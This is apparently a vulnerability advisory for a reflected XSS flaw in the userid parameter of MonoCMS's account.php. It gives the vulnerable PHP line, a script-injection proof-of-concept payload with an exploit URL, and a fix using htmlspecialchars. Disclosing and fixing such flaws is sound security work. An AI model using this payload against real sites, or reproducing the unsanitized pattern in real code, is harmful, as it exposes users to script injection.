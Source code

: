 # [XSS vulnerability] found in MonoCMS 23-20240528 - (/monofiles/account.php)


Affected Project: **MonoCMS**

Web: Php

Vendor: MonoCMS

Official Website: (https://monocms.com/)

Version: 23-20240528

Updated: 28 May, 2024

Related Code file: /monofiles/account.php

Injection parameter: `userid`

<br />

Sha1: 9532cda20cf7fa456d6f00ce0fe194767913ba83

<br />

## Vulnerability Description:
The issue arises because the `userid` parameter from the URL is being directly inserted into the value attribute of an HTML input element without proper sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
<input name="hiddenid" type="text" value="<?php if (isset($_GET['userid'])) print $_GET['userid'] ?>" hidden>
```

<br />

## Injection Payload Tested:

We set `userid` to:
```
"><script>alert('XSS')</script>
```

<br />

## URL-encoded, this becomes:
```
%22%3E%3Cscript%3Ealert('XSS')%3C/script%3E
```

<br />

## Resulting HTML After Injection:
```
<input name="hiddenid" type="text" value=""><script>alert('XSS')</script>" hidden>
```


The injected `"></script>` closes the value attribute and the input tag, allowing the `<script>` tag to be inserted into the DOM.

<br />

## Execution:

When the browser parses this HTML, it executes the `<script>alert('XSS')</script>` code, resulting in a popup displaying `"XSS by secuserx"`.

<br />

## Demonstration:

Below is how `/monofiles/account.php` looks like:

<br />

![account.php](https://i.postimg.cc/dV25sxCv/1.png)

<br />

Then we can add our payload `"><script>alert('XSS by secuserx')</script>` :
```
http://localhost:8080/monofiles/account.php?userid="><script>alert('XSS by secuserx')</script>
```

<br />

![payload](https://i.postimg.cc/CKwmzsC8/2.png)

<br />

After submitting the url with the vulnerable parameter `userid` and the XSS payload `"><script>alert('XSS by secuserx')</script>`, XSS is triggered:

<br />

![xss](https://i.postimg.cc/pdkk85k6/3.png)

<br />

## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
<input name="hiddenid" type="text" value="<?php if (isset($_GET['userid'])) print htmlspecialchars($_GET['userid'], ENT_QUOTES, 'UTF-8') ?>" hidden>
```

<br />

> One Click Can Change Everything: Be Secure.
